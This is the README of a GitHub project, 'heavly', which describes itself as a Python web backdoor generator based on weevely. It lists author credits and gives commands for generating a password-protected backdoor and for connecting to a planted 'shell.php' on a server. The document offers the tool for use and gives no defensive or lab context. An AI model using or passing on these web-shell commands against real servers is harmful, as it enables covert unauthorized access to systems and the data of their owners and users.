 # heavly
Backdoor web in python

##Presentation
    A Backdoor web in python based on weevely

```
    [+] AUTOR:        Gilmar Silva
    [+] GITHUB:       https://github.com/HeavenH
    [+] TWITTER:      https://twitter.com/gilmarsilva_
```

###How to generate your backdoor:
```
    heavly ./heavly.py -g "name_of_backdoor" "password of backdoor"
    python3 heavly.py -g "name_of_backdoor" "password of backdoor"
    heavly.py -g "name_of_backdoor" "password of backdoor"
 ```
 
Connecting to the server:
 ```
    heavly ./heavly.py -u "http://localhost/shell.php" "password"
    python3 heavly.py -u "http://localhost/shell.php" "password"
    heavly.py -u "http://localhost/shell.php" "password"
```

![img1](back.png)

